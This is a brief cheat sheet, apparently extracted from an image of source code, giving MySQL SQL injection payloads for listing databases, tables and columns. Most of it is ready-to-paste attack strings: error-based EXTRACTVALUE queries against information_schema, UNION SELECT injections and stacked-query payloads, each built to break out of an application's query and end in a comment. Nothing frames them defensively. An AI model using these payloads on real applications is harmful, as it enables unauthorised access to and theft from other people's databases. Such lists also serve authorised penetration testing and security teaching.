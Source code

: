 #### List databases

Normal
```sql
SHOW DATABASES;
```

Error based (32 character limit)
```sql
' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 1)))--
```
Union Based
```sql
' UNION SELECT schema_name, NULL FROM information_schema.schemata --
```
Stacked Queries:
```sql
; SHOW DATABASES; --
```

#### List Tables
Normal
```sql
SHOW TABLES;
```
Error based
```sql
' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT table_name FROM information_schema.tables WHERE table_schema = 'database_name' LIMIT 1 OFFSET 1)))--
```

Union Based
```sql
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables WHERE table_schema = 'database_name' --
```
Stacked Queries:
```sql
; SHOW TABLES; --
```
#### List columns
Normal
```sql
SHOW COLUMNS FROM table_name;
```
Error based
```sql
' EXTRACTVALUE(0x0a,CONCAT(0x0a,(SELECT column_name FROM information_schema.columns WHERE table_name = 'table_name' LIMIT 1 OFFSET 1)))--
```

Union Based
```sql
' UNION SELECT COLUMN_NAME, NULL FROM information_schema.columns WHERE table_name = 'table_name' --
```
Stacked Queries:
```sql
; SHOW COLUMNS FROM table_name; --
```
